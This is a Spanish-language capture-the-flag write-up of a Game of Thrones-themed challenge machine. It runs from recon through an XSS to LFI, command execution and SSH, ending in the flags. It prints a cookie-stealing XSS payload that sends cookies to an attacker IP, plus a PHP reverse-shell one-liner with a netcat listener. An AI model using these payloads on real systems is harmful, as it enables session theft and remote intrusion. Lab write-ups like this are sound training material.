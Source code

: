 
# Reto 4

## Paso 1

Luego de configurar la maquina e iniciarla esta mostraba la ip de la misma al cual le hicimos un escaneo con nmap.

Encontramos el puerto 80 con un servidor apache y ssh en el 22.

## Paso 2

con wfuzz buscamos rutas y encontramos las siguientes:

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                              
=====================================================================
                        
000004946:   200        19 L     66 W       665 Ch      "comentarios"                        
000009563:   200        31 L     118 W      964 Ch      "index"                              
000017880:   200        0 L      5 W        37 Ch       "test"
```

la ruta test no tenia nada interesante, pero comentarios e index si:

index.php

![Captura de pantalla -2024-05-20 21-23-52](https://github.com/halexys/UciTeam1/assets/72656657/ee703efd-eca9-4325-b369-1836d4c5be6c)


comentarios.php

![Captura de pantalla -2024-05-20 21-27-34](https://github.com/halexys/UciTeam1/assets/72656657/c1b5bf4e-53b5-4df3-87f0-b2547c2055dc)


Este ultimo tenia tres cosas interesantes.

- Establecia una cookie user con un valor aleatorio y la mostraba en el texto "Tu llave es:"
- un enlace "http://palaces.dorne.got"
- un formulario con un textarea para enviar un "comentario"

&nbsp;

## Paso 3

Analizamos la web y encontramos q era vulnerable a XSS, enviando una etiqueta html con un pequeño codigo javascript en el comentario

&nbsp;

el cual enviaba a un sevidor q poniamos en escucha con python las cookies.

```html
<script>document.write('<img src="http://IP:PORT/'+document.cookie+'"/> ')</script>
```

lo q devolvio:

![Captura de pantalla -2024-05-20 21-44-17](https://github.com/halexys/UciTeam1/assets/72656657/4ea0930f-e349-4171-a296-aea0a3e52cf0)


de aqui la cookie interesante era user=Unbowed,Unbent,Unbroken

## Paso 4

tras un rato de intentar cosas pusimos la url q aparecia en esta pagina en /etc/hosts

y abrio otra pagina:

![Captura de pantalla -2024-05-20 21-53-32](https://github.com/halexys/UciTeam1/assets/72656657/09259921-848e-4765-ad44-8b8c292e5f59)


no demoramos mucho en darnos cuenta q teniamos q establecer la cokie q devolvio el XSS y nos permitio "Acceso" y la primera flag:

flag: flag{j4rd1n-Alc4z4r}

![Captura de pantalla -2024-05-20 21-55-52](https://github.com/halexys/UciTeam1/assets/72656657/f088ff70-9224-4955-992c-cf477c44067b)


junto con la flag otra url la cual agregamos a host : http://don-pedro.dorne.got

## ![Captura de pantalla -2024-05-20 22-05-16](https://github.com/halexys/UciTeam1/assets/72656657/c9f8e020-79c5-434a-b5bd-ff4458cc681b)


&nbsp;

### PASO 5

al darle en cambiar idioma salio lo siguiente al final de la pagina:

![Captura de pantalla -2024-05-20 22-10-27](https://github.com/halexys/UciTeam1/assets/72656657/5ee2f7b1-30a6-451d-99bd-eab212ed410c)


Era bastante obvio el LFI(loca file inclusion) ya q al principio de cada linea estaban las letras LFI y directamente probamos con file=flag.txt (el texto era muy obvio) y luego con access.txt

![Captura de pantalla -2024-05-20 22-14-19](https://github.com/halexys/UciTeam1/assets/72656657/1bdb0ae5-194d-4c20-9ac1-6e22e8749224)


![Captura de pantalla -2024-05-20 22-15-46](https://github.com/halexys/UciTeam1/assets/72656657/d8035307-fe5c-41bf-8a1f-3da493dcd2e2)


una nueva url en el acces.txt y un usuario y contraseña?

![Captura de pantalla -2024-05-20 22-18-16](https://github.com/halexys/UciTeam1/assets/72656657/426ce299-4407-4717-9019-4c8c481a74e5)


al ingresar el usario y la contraseña sale lo siguiente:

![Captura de pantalla -2024-05-20 22-19-33](https://github.com/halexys/UciTeam1/assets/72656657/9949bcdc-79f8-4721-9d09-951114beb4ec)


## Paso 6

probamos subir un archivo cualquiera:

![Captura de pantalla -2024-05-20 22-22-06](https://github.com/halexys/UciTeam1/assets/72656657/6bf241d5-a8aa-47c0-80db-c0bdc997bdb1)


como dice q solo funcionara secret.sh probamos ejecutar un comando simple de bash

```bash
ls
```

y probamos con lfi en la ruta del palacio de don pedro:

![Captura de pantalla -2024-05-20 22-27-05](https://github.com/halexys/UciTeam1/assets/72656657/cb5e3da1-754e-42ae-91a8-99161e43b4ee)


&nbsp;

Funciona la ejecucion remota de comandos, y probamos una revershell en php

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

y ponemos netcat en escucha:

```bash
nc -lnvp PORT
```

![Captura de pantalla -2024-05-20 22-32-17](https://github.com/halexys/UciTeam1/assets/72656657/4a2b0472-ab3e-487c-9e7d-cbb4a87ffcb3)

con la revershell navegamos por algunos directorios y encontros la 3ra flag en /home/www-data

![Captura de pantalla -2024-05-20 22-36-29](https://github.com/halexys/UciTeam1/assets/72656657/2c5df24c-faea-45bf-8cf6-cd45ed186728)



en /etc/passwd estaba el usuario doran y la contraseña en base64

```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```

```
doran
D0r4n2024*
```

y luego accedimos por ssh

## Paso 7

dentro del directorio home del usuario doran habia lo siguiente:

```bash
doran@jnic2024:~$ ls
flag.txt  reto-final.txt
```

```bash
doran@jnic2024:~$ cat flag.txt 
No me fío de tu palabra, si no puedo confiar en ti, no podré entregarte la última flag
doran@jnic2024:~$
```

```bash
doran@jnic2024:~$ cat reto-final.txt 
Ya no tengo en nadie en quien confiar.

Voy a hacerte una ultima pregunta muy importante y necesito que me respondas con la verdad.

Dependiendo de tu respuesta, te dare o no la ultima flag.

Siento que alguien cercano a la familia, me va a traicionar, no se quien, pero necesito saberlo antes que sea tarde....

Podras decirme su nombre?: 

Respuesta: *******

Solo completa el nombre y te dire mi decision en el archivo flag.txt
doran@jnic2024:~$
```

Luego de googlear quien mato an doran martel encontramos q fue Ellaria y probamos reempalzar los asteriscos por Ellaria:

```bash
doran@jnic2024:~$ cat flag.txt 
Sabía que podía confiar en ti, antes de ser traicionado te entrego la última flag, cuida de Dorne!
flag{0=;;;D0rn3;;;>}
Felicidades!!! Reto D0rn3 Finalizado - Powered by j4ck 
doran@jnic2024:~$
```

&nbsp;

# FIN
